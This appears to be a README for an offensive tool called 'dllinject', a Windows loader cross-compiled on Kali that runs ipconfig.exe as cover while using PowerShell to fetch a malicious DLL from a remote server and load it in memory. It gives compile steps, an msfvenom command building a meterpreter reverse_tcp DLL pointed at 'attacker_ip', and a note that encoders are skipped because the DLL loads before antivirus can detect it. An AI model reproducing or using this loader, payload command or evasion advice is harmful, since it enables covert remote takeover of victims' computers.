 This C code is cross-compiled using i686-w64-mingw32-gcc , on a Linux <hostname> 4.18.0-kali2-amd64 #1 SMP Debian 4.18.10-2kali1 (2018-10-09) x86_64 GNU/Linux System.

Thus you would require i686-w64-mingw32-gcc compiler to compile Windows PE32 executables on Linux.

loadDLL() functionality :

The code basically invokes a powershell command (Invoke-WebRequest) to download a malicious DLL hosted in a remote webserver, while invoking an "ipconfig.exe" command.
Thus to the victim, the download of the malicious dll is virtually invisible.

The code loads the malicious dll in the runtime and pushes it in the stack, for execution.

main() function:

1. Invokes the ipconfig.exe 
2. Calls the loadDLL(); function.

Dependencies : 
1. sudo apt-get update
2. apt-get install mingw-w64

Compilation:

i686-w64-mingw32-gcc dllinject.c -o ipconfigg.exe

DLL generation :
msfvenom -p windows/meterpreter/reverse_tcp lhost=attacker_ip lport=desired_port -f dll -o test.dll

I have purposely not used any encoders as the process is fast enought to load the dll on runtime, before the AV software daemon runcheck detects it.

Similarly , you need to start a meterpreter reverse handler with specified parameters , to obtain the reverse shell.
# dllinject

https://www.youtube.com/watch?v=rK7AW9wh5g0
